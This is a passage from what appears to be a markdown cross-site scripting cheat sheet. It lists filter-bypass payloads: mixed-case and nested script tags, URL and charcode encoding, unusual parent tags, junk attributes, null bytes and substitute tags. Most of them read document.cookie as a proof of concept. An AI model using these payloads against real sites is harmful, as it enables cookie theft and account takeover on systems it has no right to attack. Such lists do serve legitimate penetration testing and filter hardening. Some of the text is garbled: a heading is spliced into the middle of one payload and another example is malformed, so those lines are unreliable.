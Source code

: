 ```
"><script >alert(document.cookie)</script >
"><ScRiPt>alert(document.cookie)</ScRiPt>
```

**2.** Bypass non-recursive filtering:

```
<scr<script>ipt>alert(documInjecting into HTML tagsent.cookie)</script>
```

**3.** Bypass encoding.

```
# Simple encoding
"%3cscript%3ealert(document.cookie)%3c/script%3e

# More encoding techniques: 
# 1. We lookk for a charcode calculator and enter our payload, for instance "lala" would be: 34, 108, 97, 108, 97, 34
# 2. Them we put those numbers in our payload
<script>alert(String.fromCharCode(34, 108, 97, 108, 97, 34))</script>
```

Double encoding is very effective. I've run into cases in the wild.

**4.** Unexpected parent tags:

```
<svg><x><script>alert('1'&#41</x>
```

**5.** Unexpected weird attributes, null bytes:

```
<script x>
<script a="1234">
<script ~~~>
<script/random>alert(1)</script>
<script ///Note the newline
>alert(1)</script>
<scr\x00ipt>alert(1)</scr\x00ipt>
```


**More**. If the `script`tag is super blacklisted in all their forms, use other tags:

```
<img> ... <IMG>
<iframe>
<input>
```

Or even, make out your own:

```
<lalala> 
```


#### 1.3. Injecting into HTML attributes
